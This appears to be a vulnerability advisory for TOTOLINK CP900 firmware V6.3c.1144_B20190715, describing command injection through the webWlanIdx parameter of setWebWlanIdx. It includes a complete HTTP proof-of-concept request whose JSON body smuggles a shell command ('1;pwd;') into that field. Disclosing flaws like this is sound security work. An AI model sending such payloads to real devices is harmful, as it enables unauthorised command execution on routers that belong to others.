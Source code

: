 ## Totolink CP900 command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CP900
* Version: V6.3c.1144_B20190715

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20190823/72f2e599854470f5752826473d74b7e0.zip

### Vulnerability details

Totolink CP900 V6.3c.1144_B20190715 was found to contain a command injection vulnerability in the `setWebWlanIdx` function via the `webWlanIdx` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

![image](./img/2.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 132
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setWebWlanIdx",
    "webWlanIdx": "1;pwd;"
}
```

